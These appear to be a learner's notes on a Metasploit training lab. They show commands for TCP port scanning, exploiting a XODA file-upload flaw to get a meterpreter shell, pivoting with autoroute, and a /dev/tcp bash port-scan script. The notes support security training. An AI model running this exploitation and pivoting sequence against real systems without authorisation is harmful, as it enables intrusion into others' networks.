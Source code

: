 
- Used to perform activity and functionality besides the exploitation of a vuln
- Used to extract information
- Can scan both UDP and TCP
- Can chain scans through a subnet or network infrastructure

#### Commands

Start postgresql and msfconsole
```
systemctl start postgresql && msfconsole
```

Check status of database
```
db_status
```

Create workspace and switch to workspace
```
workspace -a <name_workspace>
workspace <port_scan_workspace>
```

Search for portscan module in msfconsole and load module
```
search portscan
use auxiliary/scanner/portscan/tcp
options
set RHOSTS <target_ip_address>
exploit
```

Get target homepage details
```
curl <target_ip_address>
```

Search for xoda exploit
```
search xoda
use /exploit/unix/webapp/xoda_file_upload/ 
options
set RHOSTS <target_ip_address>
set TARGETURI / 
options
exploit
```

Switch to bin bash in meterpreter
```
/bin/bash -i
ifconfig

```
Crtl-Z

```
run autoroute -s <target_ip_address>
background
```

Enumerate subnet
```
search portscan
use 5 
Set RHOSTS <target_ip_address>
options
exploit
```


```

```

## Quiz

Which one of the following MSF auxiliary modules can be used to perform a TCP port scan?

	auxiliary/scanner/portscan/tcp

```
192.137.74.3
XODA
set TARGETUI / 

192.92.97.2/24
```
## Lab

[Network Service Scanning](https://attack.mitre.org/techniques/T1046/) is a part of the exploitation as well as the post-exploitation phase and deals with identifying the services running on remote hosts.

In this lab, we are given access to a Kali machine. There are two target machines, one of the target machines is present on the same network. This target machine is vulnerable and can be exploited using the following information. Use this information to get a shell on the target machine and complete the mission!

Vulnerability Information

- Vulnerability: XODA File Upload Vulnerability
- Metasploit module: exploit/unix/webapp/xoda_file_upload

Your mission:

- Identify the ports open on the second target machine using appropriate Metasploit modules.
- Write a bash script to scan the ports of the second target machine.
- Upload the nmap static binary to the target machine and identify the services running on the second target machine.

References:

- Network Service Scanning ([https://attack.mitre.org/techniques/T1046/](https://attack.mitre.org/techniques/T1046/))

Instructions: 

- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.
- The target server should be located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1
- **The static binaries are present in the directory "/root/tools/"**

192.116.28.2

References:

- Network Service Scanning ([https://attack.mitre.org/techniques/T1046/](https://attack.mitre.org/techniques/T1046/))

```

```

```
run autoroute -s 192.116.28.2
```

```
 192.130.44.2
```

```
#!/bin/bash
for port in {1..1000}; do
timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```
